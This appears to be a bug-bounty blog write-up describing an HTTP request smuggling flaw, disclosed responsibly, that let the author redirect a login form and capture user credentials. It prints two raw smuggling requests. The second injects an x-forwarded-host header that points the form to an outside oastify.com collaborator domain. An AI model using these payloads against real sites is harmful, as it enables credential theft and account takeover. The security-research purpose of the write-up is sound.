


# Stealing Login Credentails using HTTP Request Smuggling

### Introduction

In this blog post, I will discuss a significant security vulnerability I discovered in a specific target. The vulnerability, called HTTP request smuggling, provided me with the ability to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it. In this write-up, I will explain the nature of the vulnerability, its impact, and the steps taken for responsible disclosure.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.



### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.



### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.